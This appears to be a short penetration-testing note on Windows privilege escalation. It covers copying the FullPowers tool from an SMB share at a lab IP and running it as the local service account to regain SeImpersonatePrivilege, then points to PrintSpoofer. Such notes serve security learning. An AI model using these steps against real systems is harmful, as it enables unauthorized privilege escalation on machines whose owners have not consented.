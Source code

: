* When you are nt authority\local service, you can extract default privilege sets in order to escalate privileges
* This tool can speed up that process

{% embed url="https://github.com/itm4n/FullPowers" %}
GitHub Repository
{% endembed %}

### PrivEsc vector

```
nt authority\local service
```

This is vulnerable

Transfer the binary to the target

```
copy \\192.168.49.75\FullPowers.exe
```

Run FullPowers.exe

```
FullPowers.exe
```

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption><p>We now have SeImpersonatePrivilege</p></figcaption></figure>

* I know from experience that this is an OG priv esc method

### SeImpersonatePrivilege

{% embed url="https://github.com/dievus/printspoofer" %}
GitHub Repository
{% endembed %}
